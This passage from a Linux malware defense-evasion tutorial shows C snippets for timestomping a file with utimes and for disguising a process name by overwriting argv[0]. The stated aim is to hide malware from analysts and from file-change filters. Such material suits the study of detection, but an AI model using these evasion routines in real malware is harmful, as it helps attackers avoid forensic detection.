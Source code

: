 This is a technique that can be used to avoid detection by modifying the creation date and time of the malware. This is useful when bypassing certain filters that are used to find recently modified or added files. The following code snippet will be used to modify the creation date to `Thursday, October 20, 2008 7:17:16 PM (GMT)` which is a very special date *(my bd anniversary)*

This is done using the `utime` system call whose signature is as follows:

`int utimes(const char *filename, const struct timeval times[2])`  

```c
void time_stomp(char *filename){
	struct timeval tv[2];
	
	tv[0].tv_sec = 1225394236;
	tv[0].tv_usec = 0;
	
	tv[1].tv_sec = 1225394236;
	tv[1].tv_usec = 0;
	
	if(!utimes(filename, tv))
		fprintf(stdout, "[+] TimeStomped!");
}
```

The `utimes` function will take two `time_val` structures where one will be the `actime` used to change the action time and the `modtime` used to change the Modification time.

### Process Name Masquerading *(PID-Spoofing)*

To avoid detection when an `analyst/user` lists running processes i.e `ps aux`, we can masquerade and pretend to be a legitimate `Linux Daemon Process`. This is possible because when a process is run in Linux, the Process Name that will be displayed when we list processes is the string at `argv[0]` which is passed as an argument to the entry function *main()*. Therefore, modifing this value on execution will do the job perfectly. 

```c
void masquerade(char *args){
        const char *name = "ffs-it-worked"; //?? Use a real linux demon process name e.g [kthreadd]
        strcpy(args, name);
        fprintf(stdout, "[+] %d is now spoofed!\n", getpid());

        getchar(); //Pause execution; check proesses 'ps -aux'
}
```

The above code snippet copies the new process name to `argv[0]` and this masquerades as the new spoofed process name. A list of legit Linux Processes can also be declared and chosen at random at the beginning of each execution. 


![A screenshot to showcase a spoofed process](https://i.imgur.com/dipqApE.png)

The code snippet provided in my GitHub [here](https://github.com/mutur4/Linux-Malware/blob/main/LinuxMalwareDefenseEvasion/pid-spoof/spoof.c) is an example of a `C` code that will enumerate all the running processes and after each cycle of about an hour, it will spoof another process.
